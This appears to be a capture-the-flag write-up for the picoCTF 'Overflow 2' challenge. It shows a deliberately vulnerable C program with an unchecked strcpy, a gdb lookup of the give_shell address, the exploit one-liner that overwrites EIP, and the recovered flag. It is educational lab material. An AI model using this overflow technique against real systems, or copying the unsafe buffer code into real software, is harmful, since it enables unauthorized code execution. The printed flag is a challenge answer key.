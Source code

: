 ### Solved by superkojiman

Overflow 2 is a 70 point binary exploitation challenge. 

> This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found here.

The code for the binary is provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

There's clearly an overflow in the vuln() function when a string larger than 16 bytes is copied to buf. All we need to do is overwrite the return address with the address of the give_shell() function to get our shell. Using the interactive interface, we see that we can overwrite EIP by sending 28 bytes of junk:

![](/images/2014/pico/overflow2/01.png)

Now we just need the address of the give_shell() function:

```text
pico1139@shell:/home/overflow2$ gdb ./overflow2 -q -batch -n -ex 'p give_shell'
$1 = {<text variable, no debug info>} 0x80484ad <give_shell>
```

We have everything we need to exploit it and get our shell:

```
pico1139@shell:/home/overflow2$ ./overflow2 `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ id
uid=11066(pico1139) gid=1003(overflow2) groups=1017(picogroup)
$ cat flag.txt
controlling_%eip_feels_great
```

The flag is **controlling_%eip_feels_great**
